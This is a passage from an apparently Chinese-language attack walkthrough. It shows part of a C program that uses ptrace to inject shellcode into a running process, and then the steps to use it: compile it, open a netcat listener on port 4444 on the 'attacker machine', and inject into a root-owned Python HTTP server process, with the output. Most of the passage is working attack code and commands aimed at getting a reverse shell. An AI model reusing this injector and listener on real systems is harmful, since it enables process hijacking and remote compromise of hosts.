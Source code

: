```c
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;

}


```

编译代码:

```
gcc infect.c -o infectx
```

攻击机监听

```
nc -lvvp 4444
```

靶机宿主机启动一个python server进程

```
python3 -m http.server 124
```

注入

 ```bash
➜  ps -ef | grep 124 | grep -v grep
root       2239   2216  0 09:43 pts/1    00:00:00 python3 -m http.server 124
➜  ./infectx 2239
+ Tracing process 2239
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f222adc87e4
+ Setting instruction pointer to 0x7f222adc87e6
+ Run it!
 ```
